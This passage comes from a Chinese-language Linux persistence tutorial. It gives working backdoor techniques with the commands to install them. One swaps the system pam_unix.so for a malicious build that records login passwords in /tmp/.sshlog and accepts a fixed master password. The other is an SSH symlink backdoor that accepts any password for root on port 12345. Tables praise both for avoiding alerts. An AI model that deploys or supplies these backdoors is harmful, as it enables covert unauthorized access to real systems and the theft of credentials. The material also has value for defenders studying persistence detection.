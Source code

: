 ![image.png](./Linux 权限维持.assets/2023_05_19_10_24_01_OjRJyE9V.png)

预编译

![image.png](./Linux 权限维持.assets/2023_05_19_10_24_01_flOvtiCV.png)

编译

![image.png](./Linux 权限维持.assets/2023_05_19_10_24_02_dz58jZT1.png)

```bash
# 编译完成之后，动态链接库在Linux-PAM-1.1.8/modules/pam_unix/.libs/pam_unix.so
# 查找系统原so文件默认存储在/usr/lib64/security/pam_unix.so
find / -name pam_unix.so 
# 备份原pam文件和替换恶意pam文件
mv /usr/lib64/security/pam_unix.so /usr/lib64/security/pam_unix.so.bak
mv /home/aaron/Desktop/Linux-PAM-1.1.8/modules/pam_unix/.libs/pam_unix.so /usr/lib64/security/pam_unix.so
```
使用正常密码登录，可以在/tmp/.sshlog文件找到登录密码，使用我们留的密码（`PAM`）登录也可以
![image.png](./Linux 权限维持.assets/2023_05_19_10_24_02_i1wO7jLS.png)



| 优点 | 缺点 |
| :-: | :-: |
| 攻击行为接近正常登录，不会触发其他告警 | 容易排查，需要编译环境  |

## SSH 软连接 后门
```bash
 # 通过软连接建立一个ssh后门
 ln -sf /usr/sbin/sshd /usr/local/su;/usr/local/su -oPort=12345
```
原理：

1. Linux软连接ssh后门，通过PAM认证方式登录
2. 将sshd文件软连接名称设置为su ,实质上PAM认证是通过软连接的文件名(如:/usr/local/su)在/etc/pam.d/目录下寻找对应的PAM配置文件(如:/etc/pam.d/su)
3. 任意密码登陆的核心是auth sufficient pam_rootok.so,只要PAM配置文件中包含此配置即可 SSH任意密码登陆



建立软连接到/usr/local/su 文件，也可以在其他目录，su文件名字不能变，变了就无法登录。当然可以通过其他设置，更改su名字也是可以的。然后启动，并指定监听12345端口，登录的时候密码随意即可，登录如下：
使用root/任意密码即可登录成功
![image.png](./Linux 权限维持.assets/2023_05_19_10_24_03_1dR9aBcU.png)

| 优点 | 缺点 |
| :-: | :-: |
| 攻击行为接近正常登录，不会触发其他告警 | 容易被排查 |
